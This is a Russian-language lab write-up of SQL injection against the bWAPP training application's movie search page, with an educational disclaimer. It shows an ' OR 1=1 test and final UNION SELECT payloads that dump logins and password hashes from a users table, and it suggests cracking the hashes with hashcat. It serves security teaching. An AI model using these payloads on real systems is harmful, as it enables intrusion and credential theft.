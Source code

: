 # SQL Injection (GET/Search)
---

Выберите язык / Choose your language:

- 🇷🇺 [Русский](WRITEUP.md)
- 🇬🇧 [English](WRITEUP.en.md)

# Дисклеймер
---

**Текст написан и переведён автором вручную. Для форматирования и стилистической правки использовалась языковая модель.**

**Данный материал подготовлен исключительно в образовательных и исследовательских целях.
Я не поощраю и не призываю к осуществлению неправомерного доступа к информационным системам, нарушению законодательства.
По моему мнению, одним из самых эффективных способов борьбы с киберпреступностью является осведомление как рядовых пользователей и руководителей, так и разработчиков цифровых продуктов о популярных уязвимостях, которые могут быть потенциально использованы злоумышленниками для совершения противоправных актов.**

**⚠️ Все действия, описанные в данном документе, производились в рамках разрешённой исследовательской среды (CTF/тестовая платформа), без нарушения прав третьих лиц и действующего законодательства.**

**Незаконное вмешательство в работу компьютерных систем, нарушение правил хранения и обработки компьютерной информации, а также иные формы так называемого "чёрного" хакерства противоречат закону и этике информационной безопасности.**

**Я придерживаюсь принципов этичного исследования и ответственного раскрытия уязвимостей.**

---

# Введение
---

Веб-приложение Buggy Web Application (BWAPP) предлагает набор заданий, основанных на ***уязвимости внедрения SQL-кода***. (**A03:2021 - Инъекции**)

***ОХВАЧЕННЫЕ УРОВНИ БЕЗОПАСНОСТИ***
- Низкий

# Приложение
---

![[SqliGetSearchTarget.png]]

# Функциональность
---

Передача `test` для определения реакции приложения на записи, которых нет в базе данных:

![[SqliGetSearchTest.png]]

Передача `Iron Man` для наблюдения реакции приложения на запись, которая (вероятно) есть в базе данных:

![[SqliGetSearchFunction.png]]

### Предполагаемый SQL-запрос:

```SQL
SELECT * FROM movies WHERE title="$variable"
```

# Эксплуатация
---

Передача запроса `' OR 1=1 -- ` для тестирования на уязвимость SQL-инъекции:

![[SqliGetSearchSuccess.png]]

Приложение возвращает все записи из базы данных, уязвимость подтверждена.

Теперь передача нагрузки на основе `UNION` для попытки получения данных из (вероятно существующей) таблицы `users`:

![[SqlGetSearchUnion.png]]

Это доказывает, что таблица `users` существует. Операторы возвращают разное количество столбцов.

Передача полезной нагрузки `UNION` с измененными значениями `NULL` для получения записей таблицы `users`, с увеличением количества значений `NULL` до успешного выполнения запроса:

![[SqliGetSearchUnionPwd.png]]

Хэшированные пароли, которые впоследствии можно взломать с помощью таких инструментов, как `hashcat`.

![[SqliGetSearchUnionUsers.png]]

### Финальные пейлоады

Получение записей хэшированных паролей:

```SQL
Iron Man' UNION SELECT login, password, NULL, NULL, NULL, NULL, NULL FROM users -- 
```

Получение записей логинов:

```SQL
Iron Man' UNION SELECT password, login, NULL, NULL, NULL, NULL, NULL FROM users -- 
```